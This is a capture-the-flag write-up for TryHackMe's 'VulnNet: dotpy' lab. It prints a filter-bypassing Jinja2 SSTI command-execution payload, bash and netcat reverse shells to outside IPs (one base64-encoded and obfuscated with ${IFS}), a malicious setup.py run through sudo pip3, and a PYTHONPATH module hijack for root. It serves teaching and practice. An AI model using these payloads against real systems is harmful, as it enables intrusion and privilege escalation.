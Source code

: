 ```yaml
---
title: "TryHackMe - VulnNet: dotpy"
author: Nasrallah
description: ""
date: 2023-03-01 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, python, ssti, hijacking]
img_path: /assets/img/tryhackme/dotpy
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [VulnNet: dotpy](https://tryhackme.com/room/) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.52.235
Host is up (0.099s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.52.235:8080/login
```

There is only one ports open which is 8080 and it's running Wekzeug http web server that uses python 3.6.9

### Web

Let's navigate to the web page.

![](1.png)

We see a login page, i tried some default credentials but no luck with that.

Next i registered an account and logged in.

![](2.png)

Most links on this dashboard don't work.

Next is to see what's going to happen if we request a non existing page.

![](3.png)

We got an 404 page and the name of the page we requested gets returned.

Since the server is using python, one of the first things we should test for is Server Side Template injection(SSTI).

![](4.png)

Using the payload `{{7*7}}`, we managed to confirm that the website is vulnerable to SSTI

## **Foothold**

Now let's try command injection. Thanks to [PayloadsAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution), we can find multiple payloads for command execution.

![](5.png)

Tried multiple payloads but always our request seems to get blocked, this means that there is filter that we need to bypass.

On the same section on `PayloadAllThings` we can find a payload that bypasses multiple filters

```python
\{\{request\|attr('application')\|attr('\x5f\x5fglobals\x5f\x5f')\|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')\|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')\|attr('read')() \}\}
```

Using burp suite, let's see if the above payload allows us to execute commands.

![](6.png)

Great! We command execution, now let's get a reverse shell.

The payload we'll use for a reverse shell is the following.

```bash
sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

But to get it passed the filter, we'll base64 encode it.

```base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvOTAwMSAwPiYxCg==
```

To get this executed on the target system, we need to decode it and pipe it to bash just like the following

```bash
echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvOTAwMSAwPiYxCg==|base64${IFS}-d|bash
```

>The ${IFS} is used to replace space.

Now we setup a listener and send our payload.

![](7.png)

## **Privilege Escalation**

### system-adm

Let's check out current privileges as use `web`

```terminal
web@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
```

We can install any python package as user `system-adm`.

To exploit that, let's create a directory that's gonna have a malicious setup.py file.

On the setup.py, we'll import os and use it execute a reverse shell.

```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.14.124 1337 >/tmp/f")
```

Next we run the following command that's gonna run the setup.py file.

```bash
sudo -u system-adm /usr/bin/pip3 install . --upgrade --force-reinstall
```

![](8.png)

### root

Let'a again check our privileges as the `system-adm`.

```terminal
system-adm@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

We can run `backup.py` as root and we also see `SETENV` option that allows to set environment variable for `backup.py`.

Checking `backup.py` we see that it imports `zipfile`. We can exploit that by creating a `zipfile.py` of our own that executes bash and give us a root shell.

```python
import os; os.system("/bin/bash")
```

We put the file in `/tmp` directory and and run the sudo command with setting the PYTHONPATH environment variable to `/tmp`.

```bash
sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
```

![](9.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
